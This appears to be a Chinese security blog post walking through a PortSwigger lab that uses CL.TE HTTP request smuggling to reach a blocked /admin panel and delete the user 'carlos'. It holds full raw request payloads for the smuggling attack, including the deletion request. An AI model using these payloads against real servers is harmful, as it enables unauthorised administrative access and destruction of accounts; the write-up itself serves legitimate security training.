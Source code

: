 #  【Tips】利用HTTP 请求走私绕过前端安全控制、CL.TE 漏洞

原创 Beret-Sec  [ 贝雷帽SEC ](javascript:void\(0\);)

**贝雷帽SEC** ![]()

微信号 Beret-Sec

功能介绍 网络安全爱好者，记录、分享网络安全方面的相关知识~

____

___发表于_

收录于合集

#每日技能+1 20 个

#WEB 安全 9 个

  
![]()

**Tips +1  
**

![]()

  

#  **利用HTTP 请求走私绕过前端安全控制、CL.TE 漏洞**

  

  * 

    
    
     环境地址：https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te

实验场景：本实验涉及前端和后端服务器，前端服务器不支持分块编码。上有一个管理面板/admin，但前端服务器阻止对其进行访问。

要解决该实验，请将请求偷偷发送到访问管理面板并删除用户的后端服务器carlos。  

1、访问admin 没有权限，这里需要把http 设置为1  

![]()

2、构造请求包发送两个可绕过前端服务器，但是这里限制了本地用户访问

![]()

![]()

3、添加hocalhost 绕过限制，但是该请求由于第二个请求的 Host 标头与第一个请求中走私的 Host 标头冲突而被阻止。

    
    
    POST / HTTP/1.1  
    Host: 0a7c0004048a64ac816f7aab004e0091.web-security-academy.net  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 54  
    Transfer-Encoding: chunked  
      
    0  
      
    GET /admin HTTP/1.1  
    Host: localhost  
    X-Ignore: X  
    

![]()

4、发出以下请求两次，以便将第二个请求的标头附加到走私的请求正文中，请求成功如下

    
    
    POST / HTTP/1.1  
    Host: 0a7c0004048a64ac816f7aab004e0091.web-security-academy.net  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 116  
    Transfer-Encoding: chunked  
      
    0  
      
    GET /admin HTTP/1.1  
    Host: localhost  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 10  
      
    x=

![]()

5、查看请求响应，我们可以将走私的请求URL改为 删除 carlos用户

![]()

    
    
    POST / HTTP/1.1  
    Host: 0a7c0004048a64ac816f7aab004e0091.web-security-academy.net  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 116  
    Transfer-Encoding: chunked  
      
    0  
      
    GET /admin/delete?username=carlos HTTP/1.1  
    Host: localhost  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 10  
      
    x=  
      
    

![]()

![]()

删除成功，完成该关卡

![]()

  

  

                                        

End

  

“点赞、在看与分享都是莫大的支持”  

  

  

![]()

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

